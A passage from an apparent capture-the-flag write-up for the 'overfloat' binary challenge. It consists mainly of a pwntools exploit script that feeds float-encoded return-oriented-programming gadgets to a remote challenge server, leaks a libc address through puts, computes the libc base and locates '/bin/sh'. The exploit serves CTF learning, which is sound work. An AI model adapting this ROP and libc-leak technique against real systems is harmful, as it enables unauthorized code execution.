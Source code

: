 ```python
			return str(res)
	
#print tran(0x7fff)
```
and Here is my exp.
```python
from pwn import *
import tran
def sd(c="-6.2598534E18"):
	p.sendlineafter(": ",str(c))

libc=ELF("./overfloat").libc
#p=process('./overfloat')
p=remote("challenges.fbctf.com",1341)
for x in range(7):
	sd()
	sd()
rdi=0x00400a83
sd("5.881243E-39")
sd("0")
sd("8.827732E-39")
sd("0")

puts=0x000000000400690
sd("5.879826E-39")
sd("0")

rdi=0x00400a83
sd("5.881243E-39")
sd("0")
sd("2.8E-44")
sd("0")

rsi=0x400a81
sd("5.88124E-39")
sd("0")


sd("5.881103E-39")
sd(0)
sd()
sd()

#sig
sd("5.880005E-39")
sd("0")

main=0x400993
sd("5.880906E-39")
sd("0")

p.sendline("done")

p.readuntil("\n")
base=u64(p.readuntil("\n")[:-1].ljust(8,'\x00'))-(0x7ffff7a649c0-0x7ffff79e4000)
log.warning(hex(base))
libc.address=base
for x in range(7):
	sd()
	sd()

sh=libc.search("/bin/sh").next()
log.info(hex(sh))
```

[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team